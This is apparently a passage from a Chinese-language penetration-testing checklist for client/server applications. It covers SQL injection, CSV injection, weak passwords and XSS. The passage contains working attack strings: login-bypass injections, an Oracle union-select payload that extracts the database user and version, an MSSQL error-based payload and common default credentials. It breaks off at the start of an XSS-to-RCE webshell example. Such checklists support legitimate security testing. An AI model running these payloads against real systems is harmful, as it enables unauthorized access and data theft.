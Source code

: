 ![cs15](https://github.com/theLSA/cs-checklist/raw/master/demo/cs15.png)

<br/>

#### **SQL注入**

如登录处，万能密码

xxx’ or ‘x’=’x

xxx’ or 1=1--

输入框处，构造闭合报错，如’、’)、%’)、order by 100--等。

利用显示位或报错注出数据，原理同web注入，不同数据库大同小异。

<br/> 

案例0-oracle注入

' union select null,null,(select user from dual),null,null,(select banner from sys.v_$version where 	rownum=1),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null from dual--

![cs16](https://github.com/theLSA/cs-checklist/raw/master/demo/cs16.png)

<br/>

案例1-mssql注入

111') and (select user)>0--

![cs17](https://github.com/theLSA/cs-checklist/raw/master/demo/cs17.png)

<br/>

#### **CSV注入**

如导出excel，输入1+1，导出后看是否为2。

<br/> 

#### **弱口令**

可尝试admin 123456等。

<br/>

#### **XSS**

如Electron，NodeWebKit等。

<br/> 

案例0-中国蚁剑xss到rce

环境：win7+phpstudy(php5.6.27-nts)+perl+nc+antsword2.0.5

xss webshell：

`<?php`
